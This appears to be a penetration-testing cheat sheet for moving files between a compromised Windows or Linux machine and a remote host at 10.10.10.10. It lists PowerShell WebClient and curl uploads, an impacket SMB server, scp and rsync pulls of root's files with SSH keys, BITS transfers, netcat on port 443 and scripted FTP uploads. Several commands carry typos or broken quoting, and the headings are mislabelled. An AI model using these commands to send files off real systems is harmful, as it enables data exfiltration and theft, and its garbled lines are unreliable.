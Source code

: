 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------

#### 

**Web Content Upload**
    
    $webClient.UploadFile('http://10.10.10.10/demo.txt', 'PUT', 'C:\temp\demo.txt')

**Web Content Upload**
    
    powershell.exe -c "curl.exe -T C:\temp\demo.txt http://10.10.10.10/demo.txt"

**Web Content Upload**
    
    Start-Process -FilePath "curl.exe" -ArgumentList "-T 'C:\temp\demo.txt' http://10.10.10.10/demo.txt" -NoNewWindow -Wait
------------------------------------------------------------------------------------------------------------------
USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Using PUT Method**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://10.10.10.10/demo.txt', 'PUT', 'C:\temp\demo.txt')"   

**Using POST Method**

    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"
------------------------------------------------------------------------------------------------------------------
USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password 123 . -smb2support


**SMB CLIENT -**

**To create authenticated session**

    net use \\10.10.10.10 /u:"user" "123"

**Web Content Upload**
    
    copy demo.txt \\10.10.10.10\share\  
------------------------------------------------------------------------------------------------------------------
USING SSH - 
------------------------------------------------------------------------------------------------------------------

**SCP-**

**Web Content Upload**
    
    scp user@10.10.10.10:/tmp/demo.txt /tmp/

**Wildcard**

    scp -vr root@10.10.10.10:/root/*.zip /tmp/demo/ 

**Custom Port**

    scp P 2222 -vr root@10.10.10.10:/root/*.zip /tmp/demo/ 

**SSH Key**

    scp -i /home/user/.ssh/id_rsa -vr root@10.10.10.10: /tmp/demo/ 

**RSYNC-**

**Web Content Upload**
    
    rsync -av root@10.10.10.10:/root/* /tmp/demo/

**Custom Port**

    rsync -av --port 2222 -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/

**SSH Key**

    rsync -av -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/
------------------------------------------------------------------------------------------------------------------
USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------
USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://10.10.10.10/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://10.10.10.10/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt' -Method 'PUT'"
------------------------------------------------------------------------------------------------------------------
USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**First, start listener on client with output redirection to file**
    
    nc.exe -nlvp 443 > demo.txt

**Then start server with input redirection from file**
    
    type demo.txt | nc.exe -v 10.10.10.10 443
------------------------------------------------------------------------------------------------------------------
USING FTP - 
------------------------------------------------------------------------------------------------------------------

**File Upload**

Replace "demo.txt" with desired file name
    
    echo open 10.10.10.10 21 > file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -A -v -n -s:file.txt

**One Liner**

    echo open 10.10.10.10 21 > file.txt && echo bin>> file.txt && echo put demo.txt>> file.txt && echo bye>> file.txt && ftp -A -v -n -s:file.txt

**Mannualy -**

    ftp
    open 10.10.10.10 2121
    put demo.txt

**FTP Authenticated**

Replace "demo.txt" with desired file name
    
    echo open 10.10.10.10 21 > file.txt
    echo user test>> file.txt
    echo test>> file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -v -n -s:file.txt

**Mannualy -**

    ftp
    open 10.10.10.10 2121
    put demo.txt
------------------------------------------------------------------------------------------------------------------

 
